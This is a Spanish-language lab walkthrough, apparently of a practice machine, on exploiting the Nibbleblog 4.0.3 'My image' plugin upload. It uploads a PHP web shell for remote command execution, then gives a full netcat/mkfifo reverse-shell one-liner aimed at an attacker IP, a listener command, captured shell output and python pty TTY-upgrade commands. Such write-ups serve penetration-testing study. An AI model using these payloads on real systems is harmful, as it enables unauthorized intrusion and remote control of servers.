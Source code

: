 # Punto inicial

## Resumen

Tras acceder al portal de administración de Nibbleblog (v4.0.3), se enumeraron las funcionalidades del panel y se encontró que el plugin **"My image"** permite subir archivos. Se aprovechó esto para subir un archivo PHP en lugar de una imagen, logrando **ejecución remota de comandos (RCE)** como el usuario `nibbler`. A continuación se transformó esa ejecución en un **reverse shell** (shell inversa) y se mejoró la sesión a un TTY interactivo usando `python3`.

---

## Páginas del panel observadas

* **Publish:** crear posts/páginas (puede ser útil).
* **Comments:** no muestra comentarios.
* **Manage:** administrar posts, páginas y categorías.
* **Settings:** confirma versión vulnerable **4.0.3**.
* **Themes:** instalar temas preseleccionados.
* **Plugins:** instalar/configurar/desinstalar plugins — **My image** permite subir un archivo de imagen (posible vector de abuso).

---

## Prueba de ejecución remota (subida de PHP)

Subir un archivo PHP sencillo para probar ejecución:

```php
<?php system('id'); ?>
```

Guardar y subir mediante el formulario del plugin "My image" (Browse → Upload). Pueden aparecer errores de imagen (GD) como estos:

```
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26
Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27
Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117
Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118
Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43
Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```

Si la subida tuvo éxito, el fichero suele aparecer en:

```
http://<host>/nibbleblog/content/private/plugins/my_image/
```

Comprobar ejecución con `curl`:

```bash
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php
```

Salida esperada:

```
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

---

## Escalar a reverse shell

Editar localmente el PHP para ejecutar un reverse shell (payload en una línea Bash) y volver a subirlo. Ejemplo de payload (sustituir IP y puerto):

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT> >/tmp/f
```

Ejemplo insertado en PHP:

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

Preparar listener en la máquina atacante:

```bash
nc -lvnp 9443
```

Accionar la URL (curl o navegador) para disparar el payload:

```
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php
```

Al recibir la conexión:

```
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

---

## Mejorar el shell (TTY interactivo)

El shell recibido no es un TTY completo. Para convertirlo a un TTY más usable, intentar:

Intento (Python2) — puede fallar si `python` no está instalado:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Si `python` no existe pero sí `python3`:

```bash
which python3
# /usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Después de esto tendrás un shell más completo que permite usar `su`, editores, completado con tab, etc.

---

## Notas y buenas prácticas

* Registrar todos los pasos y conservar evidencia (salidas, URLs, timestamps).
* Siempre confirmar el alcance y autorización antes de explotar vulnerabilidades.
* Si el servidor tiene protección o filtros, considera opciones alternativas (subida renombrada, bypass de validaciones, explotación autenticada con credenciales válidas, uso de Metasploit si procede).
* Limpiar artefactos (eliminar PHP subido) si no se requiere persistencia.

---
